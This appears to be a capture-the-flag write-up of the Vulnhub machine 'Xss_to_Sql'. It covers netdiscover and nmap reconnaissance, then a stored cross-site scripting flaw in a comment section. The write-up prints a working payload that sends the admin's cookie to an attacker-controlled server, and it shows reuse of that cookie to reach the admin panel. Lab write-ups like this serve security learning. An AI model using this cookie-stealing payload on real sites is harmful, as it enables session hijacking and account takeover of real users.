 * * *
### Vulnhub:Xss_to_Sql
* * *
### Challenge description:

![2023-12-07_18-24](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/261fbeb3-3a6c-4488-ba5f-9dcfda0de8dd)

- Find the vm's ip address with netdiscover

       sudo netdiscover -r <ip>
 ![2023-12-14_18-07](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/f48777b6-2b77-4408-bb60-13acfa10ea9f)
 
- Scan ip with nmap
   
      nmap -sV -p1-100 192.168.184.130
      Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-14 18:08 EST
      Nmap scan report for 192.168.184.130
      Host is up (0.0013s latency).
      Not shown: 98 closed tcp ports (conn-refused)
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 5.5p1 Debian 6+squeeze4 (protocol 2.0)
      80/tcp open  http    Apache httpd 2.2.16 ((Debian))
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  
- The server is hosting a webpage and it has a comment section

  ![2023-12-14_18-12](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fa501b37-d711-4722-83cc-be50eb18709d)

- The comment section is vulnerable to stored cross-site scripting, we can use it to escalate privileges by stealing the admin's cookie

   ![2023-12-14_18-15](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9ea6f03c-5e6e-4ca9-9d29-a6081f02b610)

- Start a server with php

      php -S <ip:port>
- Use this payload

      <script>window.location="http://192.168.184.128:9000"+"?cookie="+document.cookie</script>

- Admin's cookie received

  ![2023-12-14_18-24](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9a6688bd-0f40-4411-8734-521ad3452844)

- Edit the cookie with firefox cookie editor

   ![2023-12-14_18-23](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9612c9e3-c9d8-4108-a7e4-e93e3da35875)

- Admin panel accessed

    ![2023-12-14_18-26](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/78624310-3dde-4d6b-9386-bbf972262ea1)

  
  


    
  
